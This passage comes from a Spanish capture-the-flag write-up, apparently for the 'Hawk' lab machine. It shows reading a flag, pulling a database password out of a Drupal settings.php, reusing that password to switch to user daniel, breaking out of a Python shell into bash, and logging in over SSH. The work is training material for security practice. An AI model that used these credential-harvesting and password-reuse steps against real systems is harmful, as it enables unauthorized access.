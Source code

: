 ```bash
www-data@hawk:/home/daniel$ cat user.txt
3c9bfe74f2f6661740425db2ac4f0c08
www-data@hawk:/home/daniel$
```

- Vemos una contraseña en los archivos de configuración.

```bash
www-data@hawk:/var/www/html/sites/default$ cat settings.php | grep password
 *   'password' => 'password',
 * username, password, host, and database name.
 *   'password' => 'password',
 *   'password' => 'password',
 *     'password' => 'password',
 *     'password' => 'password',
      'password' => 'drupal4hawk',
 * by using the username and password variables. The proxy_user_agent variable
# $conf['proxy_password'] = '';
```

- Si migramos a Daniel se nos ejecuta python3.

```bash
www-data@hawk:/var/www/html/sites/default$ su daniel
Password:
Python 3.6.5 (default, Apr  1 2018, 05:46:30)
[GCC 7.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>>
```

- Podemos ejecutar una bash.

```bash
>>> import os
>>> os.system("/bin/bash")
daniel@hawk:/var/www/html/sites/default$ whoami
daniel
daniel@hawk:/var/www/html/sites/default$
```

- También funcionan por SSH.

```bash
❯ ssh daniel@10.10.10.102
daniel@10.10.10.102's password:
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jul  3 00:17:56 UTC 2024

  System load:  0.0               Processes:           176
  Usage of /:   47.5% of 7.32GB   Users logged in:     0
  Memory usage: 44%               IP address for eth0: 10.10.10.102
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

417 packages can be updated.
268 updates are security updates.


```